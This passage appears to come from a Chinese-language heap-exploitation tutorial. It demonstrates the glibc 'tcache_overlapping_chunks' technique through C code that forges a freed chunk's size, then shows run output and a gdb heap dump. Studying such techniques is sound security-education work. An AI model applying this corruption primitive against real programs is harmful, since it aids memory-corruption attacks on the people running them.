 于是我们就在得到了一个在栈上的 chunk。

### tcache_overlapping_chunks

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

int main() {
    intptr_t *p1, *p2, *p3;

    p1 = malloc(0x50 - 8);
    p2 = malloc(0x20 - 8);
    memset(p1, 0x41, 0x50-8);
    memset(p2, 0x41, 0x30-8);
    fprintf(stderr, "Allocated victim chunk with requested size 0x48: %p\n", p1);
    fprintf(stderr, "Allocated sentry element after victim: %p\n", p2);

    int evil_chunk_size = 0x110;
    int evil_region_size = 0x110 - 8;
    fprintf(stderr, "Emulating corruption of the victim's size to 0x110\n");
    *(p1-1) = evil_chunk_size;
    fprintf(stderr, "Freed victim chunk to put it in a different tcache bin\n");
    free(p1);

    p3 = malloc(evil_region_size);
    memset(p3, 0x42, evil_region_size);
    fprintf(stderr, "Requested a chunk of 0x100 bytes\n");
    fprintf(stderr, "p3: %p ~ %p\n", p3, (char *)p3+evil_region_size);
    fprintf(stderr, "p2: %p ~ %p\n", p2, (char *)p2+0x20-8);
}
```

```text
$ ./tcache_overlapping_chunks
Allocated victim chunk with requested size 0x48: 0x555555756260
Allocated sentry element after victim: 0x5555557562b0
Emulating corruption of the victim's size to 0x110
Freed victim chunk to put it in a different tcache bin
Requested a chunk of 0x100 bytes
p3: 0x555555756260 ~ 0x555555756368
p2: 0x5555557562b0 ~ 0x5555557562c8
```

在 `_int_free()` 时，libc 完全没有对 chunk 进行检查，所以我们可以直接修改其 size，在 free 时该 chunk 就被放进了不同的 tcache bin。在下一次 malloc 时得到不一样大小的 chunk，造成堆块重叠。

首先我们分配两个 chunk：

```text
gdb-peda$ x/16gx 0x555555756260-0x10
0x555555756250: 0x0000000000000000      0x0000000000000051  <-- chunk p1
0x555555756260: 0x4141414141414141      0x4141414141414141
0x555555756270: 0x4141414141414141      0x4141414141414141
0x555555756280: 0x4141414141414141      0x4141414141414141
0x555555756290: 0x4141414141414141      0x4141414141414141
0x5555557562a0: 0x4141414141414141      0x0000000000000021  <-- chunk p2
0x5555557562b0: 0x4141414141414141      0x4141414141414141
0x5555557562c0: 0x4141414141414141      0x0000000000000411
```
